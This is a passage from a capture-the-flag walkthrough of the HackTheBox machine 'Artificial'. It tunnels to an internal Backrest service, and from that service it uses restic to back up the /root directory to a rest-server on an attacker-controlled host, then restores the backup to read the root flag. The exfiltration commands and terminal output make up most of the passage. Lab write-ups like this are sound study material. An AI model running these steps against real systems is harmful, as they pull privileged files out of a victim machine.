echo "Access backrest WebUI at http://localhost:9898"
```

Now, we can try to pivot into the machine internal service:
```
┌──(kali㉿kali)-[/mnt/…/Artificial/backrest/.config/backrest]
ssh -L 9898:127.0.0.1:9898 gael@<MACHINE-IP>
gael@<MACHINE-IP>'s password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 10 Sep 2025 11:51:10 AM UTC

  System load:           0.0
  Usage of /:            66.2% of 7.53GB
  Memory usage:          35%
  Swap usage:            0%
  Processes:             286
  Users logged in:  gael
  IPv4 address for eth0: <MACHINE-IP>
  IPv6 address for eth0: dead:beef::250:56ff:feb9:7c15


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Sep 10 11:51:11 2025 from <ATTACKER-IP>
gael@artificial:~$ 
```

Then, try to access the backrest webpage by searching http://localhost:9898/



Login using the credentials that we got earlier and create a new repo:



Now, we need to run our restic server:
```
┌──(kali㉿kali)-[~/go/bin]
└─$ rest-server --path /tmp/restic-data --listen :12345 --no-auth
Data directory: /tmp/restic-data
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:12345
```

In the newly created repo, run the command:
```
-r rest:http://<ATTACKER-IP>:12345/<REPO-NAME> init

-r rest:http://<ATTACKER-IP>:12345/<REPO-NAME> backup /root
```



Then, we can view the snapshots created in our machine:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ restic -r /tmp/restic-data/backrest_root snapshots                 
enter password for repository: 
repository 99204ab6 opened (version 2, compression level auto)
created new cache in /home/kali/.cache/restic
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
faa9aa0f  2025-09-10 20:27:04  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
1 snapshots
```

Try to restore the backup created:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ restic -r /tmp/restic-data/backrest_root restore faa9aa0f --target ./restore
enter password for repository: 
repository 99204ab6 opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
restoring snapshot faa9aa0f of [/root] at 2025-09-10 12:27:04.506148284 +0000 UTC by root@artificial to ./restore
ignoring error for /root/.bash_history: symlink /dev/null /mnt/CTF/CyberSec/Learning/HackTheBox/Machines/Artificial/restore/root/.bash_history: operation not supported
ignoring error for /root/.python_history: symlink /dev/null /mnt/CTF/CyberSec/Learning/HackTheBox/Machines/Artificial/restore/root/.python_history: operation not supported
Summary: Restored 78 / 80 files/dirs (4.299 MiB / 4.299 MiB) in 0:00
Fatal: There were 2 errors
```

Now, we can retrieve the root flag:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ cat restore/root/root.txt
```

<details>
<summary><b>🏳️root.txt</b></summary>
<b><code>cfc413b92fdf1bbb0938b52268c98a07</code></b>
</details><br>